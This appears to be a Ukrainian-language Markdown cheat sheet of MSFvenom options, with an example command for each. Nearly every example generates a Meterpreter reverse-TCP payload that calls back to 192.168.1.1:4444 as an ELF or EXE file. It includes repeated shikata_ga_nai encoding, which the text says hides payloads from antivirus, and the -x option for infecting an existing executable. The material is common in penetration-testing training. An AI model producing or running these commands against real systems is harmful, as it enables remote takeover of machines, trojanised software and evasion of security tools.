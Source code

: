 
# Команди MSFvenom

Цей документ містить список основних команд MSFvenom з поясненнями українською мовою для ефективної роботи з інструментом.

## Основні команди

1. **-p**  
   Вказує тип payload для створення шкідливого файлу.  
   **Приклад**:  
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf > payload.elf
   ```

2. **-f**  
   Вказує формат файлу, який буде створений. Може бути elf, exe, asp, php, і багато інших.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
   ```

3. **-a, --arch**  
   Вказує архітектуру цільової системи (x86, x64, arm).  
   **Приклад**:  
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f elf -a x86 > payload.elf
   ```

4. **-b**  
   Вказує символи, яких слід уникати в payload, щоб не порушити працюючі процеси або системи.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -b "\00" -f exe > payload.exe
   ```

5. **-e**  
   Вказує енкодер для захисту payload. Це дозволяє приховати payload від антивірусів.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe
   ```

6. **-x**  
   Вказує шлях до існуючого виконуваного файлу для його зараження.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -x /path/to/existing.exe -f exe > infected.exe
   ```

7. **-i**  
   Вказує кількість ітерацій енкодера, щоб зробити payload важче для детектування.  
   **Приклад**:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe
   ```

8. **-l**  
   Виводить список всіх доступних payloads.  
   **Приклад**:  
   ```bash
   msfvenom -l
   ```

10. **-h**  
    Виводить довідку про використання MSFvenom та його параметри.  
    **Приклад**:  
    ```bash
    msfvenom -h
    ```

11. **--platform**  
    Вказує платформу для payload (наприклад, Windows, Linux, Android).  
    **Приклад**:  
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 --platform windows -f exe > payload.exe
    ```

13. **--payload**  
    Вказує конкретний payload для генерації.  
    **Приклад**:  
    ```bash
    msfvenom --payload windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
    ```

15. **-o**  
    Вказує ім’я файлу, у який буде збережено payload.  
    **Приклад**:  
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -o payload.exe
    ```


